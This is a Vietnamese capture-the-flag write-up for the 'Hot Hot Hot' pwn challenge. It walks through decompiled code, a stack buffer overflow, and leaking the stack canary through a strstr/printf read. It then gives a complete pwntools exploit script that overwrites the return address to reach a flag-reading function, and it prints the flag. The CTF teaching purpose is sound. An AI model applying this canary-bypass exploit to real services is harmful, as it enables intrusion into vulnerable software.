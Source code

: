 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Hot Hot Hot
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin challenge
- [Link Download](https://vsl.ce.vku.udn.vn/files/2d87b37396ac71cc4964bae41d468c0e/challenge.zip?token=eyJ1c2VyX2lkIjoyMDgsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjQzfQ.aFbGkg.m4P5jFzT8OVy1Gro70FTYouoNMA)
- Netcat connection: `nc 61.14.233.78 7001`

## 3. Solution
- Công cụ: **IDA free 9.0, checksec, pwndbg, pwntools (python3)**

### 3.1. Phân tích file nhị phân(hothothot) được dịch ngược bằng IDA
- Ở tab `function name` trong **IDA** ta thấy có 1 số hàm đáng chú ý là `main`, `duckling`, `duck_attack`: 
- Hàm `main`:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}
```
- Ta có thể thấy `main` lại gọi tiếp 1 hàm là `duckling`, ta sẽ tiếp tục phân tích hàm này:
```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```
- Quan sát mảng `buf` và `v3` mà chương trình cấp phát và kích thước dữ liệu mà người dùng có thể nhập vào 2 mảng này thông qua hàm `read` ta có thể kết luận chương trình mắc lỗi `buffer overflow` và quan sát code trong hàm `duck_attack`(cho phép đọc file `flag.txt`), có vẻ như mục tiêu của ta là thao túng thanh ghi `rip` trỏ đến hàm `duck_attack` nhờ vào `buffer overflow`.
- Tuy nhiên, chương trình đã bật `Stack Canary` để ngăn việc tràn bộ đệm, ta sẽ dùng `checksec` để kiểm tra điều này:

```bash
$ checksec --file=hothothot
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    No PIE          No RPATH   RW-RUNPATH   54 Symbols        No    0               2               hothothot
```
- Vậy liệu ta có thể bypass được `Stack Canary` để tiếp tục thực hiện được `buffer overflow` không? 
- Tiếp tục quan sát hàm `duckling` có đoạn:
```c
printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
- Đoạn này sẽ in nội dung từ địa chỉ `v1 + 32` trở đi với định dạng `%s` và ta hoàn toàn có thể tận dụng điều này để chương trình leak nội dung của `Stack Canary`
(`Format String Vulnerability`)

### 3.2. Tìm offset đến `Stack Canary` trong `duckling`
3.2. Tìm offset đến Stack Canary trong duckling
- Qua phân tích từ **IDA**, ta thấy `layout stack` như sau:
```less
[buf: 0x80 bytes]  --> user input đầu tiên (read 0x66 = 102 bytes)
[v3: 0x60 bytes]   --> user input thứ hai (read 0x6A = 106 bytes)
[v4: canary]
[saved RBP]
[RIP]
```
- Ta nhận thấy `buf` và `v3` được đặt kế tiếp nhau trên stack, trong đó `v3` có kích thước đúng 88 bytes, tiếp theo là canary (8 bytes) → tổng cộng offset 88 là nơi canary bắt đầu trong vùng `v3`. Vậy nếu nhập từ `buf` thì offset đến `canary` sẽ là 120 bytes (32 + 88 bytes) nhưng ta sẽ sẽ không thể nhập quá 102 bytes vì
user input đầu tiên (read 0x66 = 102 bytes).

### 3.3. Leak `Stack Canary`
- Hàm `strstr` trong `duckling` tìm chuỗi `"Quack Quack "` trong dữ liệu ta nhập vào `buf`, rồi in nội dung từ `v1 + 32` trở đi với định dạng `%s`.
- Nhờ đó, ta có thể điều chỉnh input sao cho `"Quack Quack "` bắt đầu ở vị trí thứ 89 trong user input đầu tiên, rồi `v1 + 32` sẽ nằm tại vị trí `stack canary` và thêm 1 byte nữa để tránh đọc `null byte` (`\x00`) (byte đầu của `canary` là `\x00`) như vậy ta có thể leak được 7 bytes sau của canary.
- Sau đó, ta ghép 7 bytes `canary` vừa leak được bằng cách thêm byte `\x00` vào đầu khi dùng `u64` (`pwntools`)

### 3.4. Script Python
- Dưới đây là script khai thác và giải thích chi tiết:

```python
from pwn import *

p = remote('61.14.233.78', 7001)

# Payload đầu tiên để bypass strstr()
# Gửi 89 bytes để chiếm đầy `buf` + 1 byte đè lên byte đầu tiên của stack canary (thường là \x00)
# Sau đó là chuỗi "Quack Quack " để hàm `strstr(buf, "Quack Quack ")` tìm thấy chuỗi này tại offset 89
first = b'A'*89 + b"Quack Quack "
p.send(first)

# Chờ chương trình in ra prompt `"ready to fight the Duck?\n\n> "` 
output = p.recvuntil(b"ready to fight the Duck?\n\n> ")

# Parse nội dung được in giữa "Quack Quack " và ", ready"
# Đây chính là nơi `printf("%s", v1+32)` in ra từ stack → có thể bắt đầu từ phần còn lại của canary
leak = output.split(b"Quack Quack ")[2].split(b", ready")[0]

# Vì byte đầu tiên của canary bị ghi đè bởi 'A' nên không leak được,
# ta prepends thủ công `\x00` để khôi phục lại giá trị gốc (vì canary luôn có byte đầu là 0)
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")

# Payload thứ hai: ghi đè buf, canary, saved RBP, và RIP để nhảy tới duck_attack()
second = flat(
    b'B' * 88,           # Ghi đè hết vùng buffer
    p64(canary),         # Ghi đúng lại stack canary đã leak được
    b'C' * 8,            # Ghi đè saved RBP (không quan trọng)
    p64(0x40137f),       # Ghi đè RIP → nhảy tới địa chỉ hàm duck_attack()
)

# Gửi payload ROP
p.send(second)
p.interactive()
```

- Sau khi chạy script, ta nhận được flag: <br>
`VSL{h0t_h0tt3r_h0tt3st_fl4m3_292jdnk@&wmql}`






